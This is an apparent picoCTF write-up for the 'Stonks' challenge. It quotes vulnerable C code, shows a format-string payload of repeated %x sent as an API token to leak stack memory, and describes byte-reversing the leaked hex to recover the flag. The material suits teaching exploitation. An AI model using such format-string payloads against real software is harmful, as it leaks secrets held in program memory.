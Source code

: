 ## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c` `nc mercury.picoctf.net 33411`



## Approach
1. By analyzing the `vuln.c`, we can find the code below.
Then, we can know before inputting the API token, file `api` will be read.
```
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
```


2. Then we can pop data off of the stack by inputting several `%x` as API token, such as `%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x`. And then we can get the data like the one: `8d34390804b00080489c3f7f97d80ffffffff18d32160f7fa5110f7f97dc708d3318038d343708d343906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffc5007df7fd2af8`

3. Because we know the flag starts with `pico` and its ASCII hex is `7069636f`, we can try to find something simiar. However, we can only find its reverse, like `6f636970` because of stack, but it is still a good news.

4. So just reverse data and rearrange them, we can get the final answer.